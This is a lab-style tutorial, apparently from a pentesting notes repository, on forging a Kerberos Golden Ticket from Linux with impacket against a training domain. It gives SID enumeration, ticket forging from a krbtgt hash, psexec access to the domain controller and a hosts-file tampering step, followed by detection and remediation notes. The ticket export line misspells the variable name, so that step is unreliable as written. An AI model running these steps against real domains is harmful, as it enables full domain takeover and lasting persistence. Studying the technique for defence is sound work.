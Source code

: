 # Golden Ticket from Linux

## Linux

- On the Linux side, **impacket** can be used to craft a **Golden Ticket**. [lookupsid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py) will help us retrieve the domain SID and every group and user SID. 

## Search for the Domain SID with lookups 

![Lookupsids](/Ticket-Abuse/Golden-Tickets-Linux/images/lookupsids.png) 
![Lookupsids](/Ticket-Abuse/Golden-Tickets-Linux/images/lookupsids-2.png) 
![Lookupsids](/Ticket-Abuse/Golden-Tickets-Linux/images/lookupsids-3.png) 
![Lookupsids](/Ticket-Abuse/Golden-Tickets-Linux/images/lookupsids-4.png)

 

	> lookupsid.py inlanefreight.local/htb-student@dc01.inlanefreight.local -domain-sids
	
	> lookupsid.py inlanefreight.local/htb-student@dc01.inlanefreight.local -domain-sids  sids 
	
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - f
	orked by ThePorgs                                                                   
		                                                                               
	Password:                                                                           
	[*] Brute forcing SIDs at dc01.inlanefreight.local                                  
	[*] StringBinding ncacn_np:dc01.inlanefreight.local[\pipe\lsarpc]                   
	[*] Domain SID is: S-1-5-21-1870146311-1183348186-593267556                         
	498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)           
	500: INLANEFREIGHT\Administrator (SidTypeUser)                                      
	501: INLANEFREIGHT\Guest (SidTypeUser)                                              
	502: INLANEFREIGHT\krbtgt (SidTypeUser)                                             
	512: INLANEFREIGHT\Domain Admins (SidTypeGroup)                                     
	513: INLANEFREIGHT\Domain Users (SidTypeGroup)
	
	
 - Once we have the domain SID, we can craft a **Golden Ticket** using [ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py). 


## Creating the Golden Ticket 


	> ticketer.py -nthash c0231bd8a4a4de92fca0760c0ba9e7a6 -domain-sid S-1-5-21-1870146311-1183348186-593267556 -domain inlanefreight.local Administrator

	ticketer.py -nthash c0231bd8a4a4de92fca0760c0ba9e7a6 -domain-sid S-1-5-21-1870146311-1183348186-593267556 -domain inlanefreight.local Administrator
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

	[*] Creating basic skeleton ticket and PAC Infos
	[*] Customizing ticket for inlanefreight.local/Administrator
	[*]     PAC_LOGON_INFO
	[*]     PAC_CLIENT_INFO_TYPE
	[*]     EncTicketPart
	[*]     EncAsRepPart
	[*] Signing/Encrypting final ticket
	[*]     PAC_SERVER_CHECKSUM
	[*]     PAC_PRIVSVR_CHECKSUM
	[*]     EncTicketPart
	[*]     EncASRepPart
	[*] Saving ticket in Administrator.ccache



![ticketer](/Ticket-Abuse/Golden-Tickets-Linux/images/ticketer.png) 



- The ticket has been forged and saved in the current directory as **Administrator.ccache**. We can now use this ticket by importing it in **KRB5CCNAME** environment variable and using any impacket tool with the **-k** parameter. 


## Importing and Using the Golden Ticket

	> export KRBBCCNAME=./Administrator.ccache 
	

![Import Ticket](/Ticket-Abuse/Golden-Tickets-Linux/images/import-ticket.png) 


## You're FUCKED!!

	> psexec.py -k -no-pass dc01.inlanefreight.local
	> echo 'hacker ip  hacker dns' >> \Windows\System32\Drivers\etc\hosts
	> type \Windows\System32\Drivers\etc\hosts


	
![Hacked](/Ticket-Abuse/Golden-Tickets-Linux/images/fukd.png) 
![Hacked](/Ticket-Abuse/Golden-Tickets-Linux/images/fukd-2.png) 
![Hacked](/Ticket-Abuse/Golden-Tickets-Linux/images/fukd-3.png) 
![Hacked](/Ticket-Abuse/Golden-Tickets-Linux/images/fukd-4.png) 

## Detection

This type of persistence is **challenging to detect because Golden Tickets are valid TGTs**. **Windows event logs don’t distinguish between a legitimate TGT and a maliciously crafted Golden Ticket**. Also, resetting the impersonated account’s password does not invalidate the ticket.

**Golden tickets are usually created with a much longer lifespan than tickets have by default (Mimikatz makes golden tickets with a default lifespan of 10 years)**. Certain AD monitoring products can detect these **long ticket lifespans as IoC**s.

Golden Tickets can be detected in a few ways: 

1. The account DOMAIN field is blank. 

2. The account DOMAIN field contains DOMAIN FQDN instead of just domain. 


Once a **golden ticket is detected**, the **krbtgt account password must be changed twice to remove the persistence**, as the current and previous passwords are stored in the domain. **The password of the krbtgt account should be changed regularly**, as it is an admin account. 

